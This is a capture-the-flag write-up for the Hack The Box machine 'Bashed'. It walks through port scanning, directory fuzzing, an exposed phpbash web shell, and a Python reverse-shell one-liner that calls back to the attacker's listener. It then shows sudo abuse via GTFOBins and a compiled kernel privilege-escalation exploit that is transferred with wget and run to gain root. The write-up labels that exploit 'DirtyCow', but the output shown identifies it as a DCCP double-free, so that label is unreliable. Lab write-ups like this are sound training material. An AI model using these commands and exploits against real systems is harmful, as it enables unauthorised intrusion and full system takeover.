




# Bashed

Personally, I think [Bashed](https://app.hackthebox.com/machines/118) is one of the easiest machines. All that needs to be done is generate a reverse shell.

So, let's begin.

## Enumeration

The first thing to do is to run an `nmap` scan to determine all the ports that are open.

```
┌──(kali㉿kali)-[~/Desktop/htb/bashed]
└─$ sudo nmap -p- -sS -T4 -oG open_ports 10.10.10.68
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-20 17:23 EDT
Nmap scan report for 10.10.10.68
Host is up (0.23s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 800.17 seconds
```

It can be seen that only port 80 is open. So, we can check the page visually.



This appears to be a simple web page and if we click on the link of the top article it takes us to another page where link for a [GitHub repo](https://github.com/Arrexel/phpbash) is provided. Also, by looking at the images attached in that article it looks like with this tool you can run commands on the machine on which it is hosted. 

## Gaining Foothold

So, the first thing that should come to one's mind would be leverage this to create a reverse shell.

The next task is to find the page from where we can access this tool. From the GitHub repo and screenshots in the article it looks like it should be present at `/uploads/phpbash.php` or `/uploads/phpbash.min.php` but both these return a 404 Not Found error. It is possible that these webpages are hosted with some other name or in some other directory here, so we can run a directory brute-force attack to find out any hidden directories.

```
┌──(kali㉿kali)-[~/Desktop/htb/bashed]
└─$ ffuf -u http://10.10.10.68/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.68/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

.htpasswd               [Status: 403, Size: 295, Words: 22, Lines: 12]
.hta                    [Status: 403, Size: 290, Words: 22, Lines: 12]
.htaccess               [Status: 403, Size: 295, Words: 22, Lines: 12]
css                     [Status: 301, Size: 308, Words: 20, Lines: 10]
dev                     [Status: 301, Size: 308, Words: 20, Lines: 10]
fonts                   [Status: 301, Size: 310, Words: 20, Lines: 10]
images                  [Status: 301, Size: 311, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 7743, Words: 2956, Lines: 162]
js                      [Status: 301, Size: 307, Words: 20, Lines: 10]
php                     [Status: 301, Size: 308, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12]
uploads                 [Status: 301, Size: 312, Words: 20, Lines: 10]
:: Progress: [4713/4713] :: Job [1/1] :: 386 req/sec :: Duration: [0:00:15] :: Errors: 0 
```

While checking each path manually, we can see that the same `php` file are present in the `/dev` directory. 




So, now we have access to a shell and all we need to do is generate a reverse connection on our local system.

We can create a reverse connection using python but we need to check if python is present on the target machine or not.



And it looks like python is present on the target machine. So, we can start a listener using the command `nc -nlvp 1337` and then run the python command mentioned below in the shell to get a reverse connection.

```
export RHOST="10.10.16.4";export RPORT=1337;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

Right after running this command we get our reverse shell as shown below

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.68] 52814
$ whoami
whoami
www-data
$ pwd
pwd
/var/www/html/dev
```

We can now read the user flag present at `/home/arrexel/user.txt`.

## Privilege Escalation

Now that we have access as `www-data` our next target is to get root of this machine. The first thing that we can check would be the commands that we can run as root or other users.

```
$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

It looks like we can run all the commands as user `scriptmanager`. So, we can use [GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid) with Python to get a shell as `scriptmanager`.

```
$ sudo -u scriptmanager python -c 'import os; os.execl("/bin/bash", "bash", "-p")'
sudo -u scriptmanager python -c 'import os; os.execl("/bin/bash", "bash", "-p")'
scriptmanager@bashed:/home/arrexel$ whoami
whoami
scriptmanager
```

The next task is to further escalate our privileges and become root. So, we can again try to check the output of `sudo -l` for `scriptmanager` but it won't work this time as it asks for password which we don't know. A few other things that we can check for would be cronjobs and files that have their SUID bit set.

```
$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
$ find / -perm /2000 2> /dev/null
find / -perm /2000 2> /dev/null
/var/local
/var/mail
/var/cache/man
/run/log/journal
/run/log/journal/37f474e246e601006b77c9705a259ee9
/sbin/pam_extrausers_chkpwd
/sbin/unix_chkpwd
/usr/local/share/fonts
/usr/local/share/xml
/usr/local/share/xml/declaration
/usr/local/share/xml/entities
/usr/local/share/xml/misc
/usr/local/share/xml/schema
/usr/local/share/emacs
/usr/local/share/emacs/site-lisp
/usr/local/share/sgml
/usr/local/share/sgml/dtd
/usr/local/share/sgml/declaration
/usr/local/share/sgml/entities
/usr/local/share/sgml/stylesheet
/usr/local/share/sgml/misc
/usr/local/lib/python2.7
/usr/local/lib/python2.7/site-packages
/usr/local/lib/python2.7/dist-packages
/usr/local/lib/python3.5
/usr/local/lib/python3.5/dist-packages
/usr/bin/expiry
/usr/bin/crontab
/usr/bin/ssh-agent
/usr/bin/chage
/usr/bin/wall
/usr/bin/bsd-write
/usr/bin/mlocate
```

But we can't find anything interesting over here as well. We can also try to check the Linux version and see if there are any exploits available for the same.

```
$ uname -a
uname -a
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
$ cat /etc/lsb-release
cat /etc/lsb-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.2 LTS"
```

From a quick google search we can figure out that this version is vulnerable to an attack called as DirtyCow and codes to perform this exploit are readily available. But all the exploits are in C so we need to check if `gcc` is present on the target machine or not else we need to compile the executable on our machine and then send it over to target.

```
scriptmanager@bashed:/home/arrexel$ which gcc
which gcc
scriptmanager@bashed:/home/arrexel$ 
```

So, it looks like `gcc` is not present on the target machine so we can compile it on our own machine and then send it.

The exploit that I found was [this](https://www.exploit-db.com/exploits/41458) one and all we had to do was get this code, compile it and run it on the target machine.

```
┌──(kali㉿kali)-[~/Desktop/htb/bashed]
└─$ searchsploit -m 41458
  Exploit: Linux Kernel 4.4.0 (Ubuntu) - DCCP Double-Free Privilege Escalation
      URL: https://www.exploit-db.com/exploits/41458
     Path: /usr/share/exploitdb/exploits/linux/local/41458.c
File Type: C source, ASCII text

Copied to: /home/kali/Desktop/htb/bashed/4145
     
┌──(kali㉿kali)-[~/Desktop/htb/bashed]
└─$ gcc 41458.c -o exploit
```

We can send this to that target machine by creating a python server with the command `python3 -m http.server` and then retrieving the file on the target machine with `wget`.



We also need to make this file executable which can be done by `chmod +x exploit`. Once that is done all we need to do is run the executable and get a shell as root.

```
scriptmanager@bashed:~$ ./exploit
./exploit
[.] namespace sandbox setup successfully
[.] disabling SMEP & SMAP
[.] scheduling 0xffffffff81064550(0x406e0)
[.] waiting for the timer to execute
[.] done
[.] SMEP & SMAP should be off now
[.] getting root
[.] executing 0x556b57a39356
[.] done
[.] should be root now
[.] checking if we got root
[+] got r00t ^_^
[!] don't kill the exploit binary, the kernel will crash
root@bashed:/home/scriptmanager# whoami
whoami
root
```

Now that we have access as root, we can easily read the root flag!

## Some Key Points to Take Away

1. Always check for OS version specific exploits.

## References

1. [Bashed](https://app.hackthebox.com/machines/118)
2. [DirtyCow Exploit](https://www.exploit-db.com/exploits/41458)
3. [GFOBins](https://gtfobins.github.io)